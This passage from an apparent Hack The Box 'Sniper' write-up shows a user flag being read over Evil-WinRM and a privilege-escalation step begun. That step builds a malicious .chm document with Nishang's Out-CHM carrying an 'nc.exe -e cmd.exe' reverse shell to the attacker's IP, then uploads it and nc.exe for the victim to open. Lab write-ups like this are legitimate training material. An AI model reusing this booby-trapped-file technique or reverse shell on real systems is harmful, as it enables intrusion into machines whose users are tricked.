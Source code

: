 Get the flag

```shell
*Evil-WinRM* PS C:\Users\Chris\desktop> type user.txt
b56f5fdc204fccaaa4ed7802a1fa357a
```

## Privilege Escalation

The user has a `.chm` file inside `downloads`.

![](../assets/Pasted%20image%2020250612184159.png)

And the CEO left a message to `chris` for him to finish the app documentation.

![](../assets/Pasted%20image%2020250612184238.png)

So it seems that the `.chm` file from `chris`'s folder is the documentation that he has to finish.

Transfer the file out to a Windows machine and open it.

We can make a malicious `.chm` file with [https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)

```shell
Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.17 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Transfer the `doc.chm` to Kali and then to the machine

```shell
*Evil-WinRM* PS C:\Users\Chris\downloads> upload doc.chm

Info: Uploading /home/kali/htb/sniper/doc.chm to C:\Users\Chris\downloads\doc.chm

Data: 17928 bytes of 17928 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\Chris\downloads> upload nc.exe

Info: Uploading /home/kali/htb/sniper/nc.exe to C:\Users\Chris\downloads\nc.exe

Data: 79188 bytes of 79188 bytes copied
```
